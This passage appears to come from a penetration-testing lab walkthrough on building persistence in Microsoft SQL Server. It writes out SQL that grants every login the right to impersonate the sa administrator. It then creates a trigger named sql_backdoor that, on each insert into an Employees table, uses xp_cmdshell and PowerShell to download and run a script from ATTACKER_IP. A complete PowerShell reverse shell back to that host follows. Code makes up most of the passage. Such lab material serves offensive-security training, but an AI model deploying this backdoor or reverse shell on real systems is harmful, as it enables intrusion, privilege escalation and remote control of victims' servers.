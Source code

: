 After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa` user, which is the default database administrator:

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```sql
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

* The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
* The second connection will be a reverse shell on port 4454 back to our attacker machine.
